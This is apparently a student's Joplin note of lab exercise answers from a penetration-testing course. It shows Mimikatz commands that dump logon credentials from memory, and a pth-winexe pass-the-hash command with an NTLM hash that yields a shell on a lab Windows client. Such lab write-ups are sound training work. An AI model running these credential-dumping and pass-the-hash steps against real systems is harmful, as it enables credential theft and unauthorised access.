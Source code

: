 19.4.2.1

# 19.4.2.1
## 19.4.2.1.1. Use Mimikatz to extract the password hash of an administrative user from the Windows client.

The module sekurlsa in Mimikatz lets you dump passowrds from memory. To use this module, you must have Admin or SYSTEM permissions

Run Mimikatz
`c:\Tools\password_attacks\mimikatz.exe`
Check if you have appropriate permissions
`privilege::debug`
Start the logging function to write results to a file
`log myMimi.log`
Output the clear text passowrds stored on this computer
`sekurlsa::logonpasswords`

![1c0a3878bedfd7d0dd5c6f4408fd77d7.png](:/bb1999fdf58d497c87cd42017262afe6)
![eb28d23c06ab173307401987a8f1369c.png](:/94514dde800d48f19a31874d3668b14c)



## 19.4.2.1.2. Reuse the password hash to perform a pass-the-hash attack from your Kali system and obtain code execution on your Windows client.

As 'offsec':
![671903777f770bf1f674c3d7af641552.png](:/ad01770fe9274368a756c47993f82c68)
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/19_passwordAttacks$ pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //192.168.214.10 cmd
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.16299.15]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
client251\offsec

C:\Windows\system32>
```
![1093d828db841a53905919527641fb26.png](:/12afaf12693142adaade8df088c6323f)


As 'admin':
![315d5fb117c0ae22280322ba4c6b99fe.png](:/1805f78926494aaf96625ee558eade90)
![e448396bbe55f90843e70ed0f868582e.png](:/1c7f9db404b74ac59bda9c56bcee5151)


As 'Administrator':
![ac70665d5435e9936f8e3ae1d212cb44.png](:/c1b1fce0de694da89d2dd7b5695b1c2e)
![26f0f96940fe84a4d642fa31cd5852a8.png](:/5f86360243074a9fb38777d82dec30cc)








id: aa4cee6e8f034996b83c3ed0676cc93e
parent_id: 45a8d90fc5394d47a3fa3dcd5c003130
created_time: 2020-10-03T22:29:59.739Z
updated_time: 2020-10-04T11:13:35.836Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-10-03T22:29:59.739Z
user_updated_time: 2020-10-04T11:13:35.836Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1